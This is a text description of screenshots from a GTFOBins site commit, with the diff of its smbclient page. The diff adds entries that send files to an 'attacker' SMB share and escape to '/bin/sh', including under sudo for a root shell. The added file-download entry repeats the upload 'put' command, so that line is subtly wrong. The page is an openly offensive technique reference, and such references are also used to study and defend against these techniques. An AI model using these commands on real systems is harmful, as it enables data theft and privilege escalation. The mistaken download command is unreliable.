

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/smbclient.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add smbclient upload and download

```diff
--- a/_gtfobins/smbclient.md
+++ b/_gtfobins/smbclient.md
@@ -3,10 +3,18 @@ description: A valid SMB/CIFS server must be available.
 functions:
   shell:
     - code: |
-        smbclient \\ip\share
+        smbclient '\\attacker\share'
         !/bin/sh
+  file-upload:
+    - description: Install [Impacket](https://github.com/SecureAuthCorp/impacket) and run `sudo smbserver.py share /tmp` on the attacker box to collect the file.
+      code: |
+        smbclient '\\attacker\share' -c 'put file_to_send where_to_save'
+  file-download:
+    - description: Install [Impacket](https://github.com/SecureAuthCorp/impacket) and run `sudo smbserver.py share /tmp` on the attacker box to send the file.
+      code: |
+        smbclient '\\attacker\share' -c 'put file_to_send where_to_save'
   sudo:
     - code: |
-        sudo smbclient \\ip\share
+        sudo smbclient '\\attacker\share'
         !/bin/sh
 ---
```
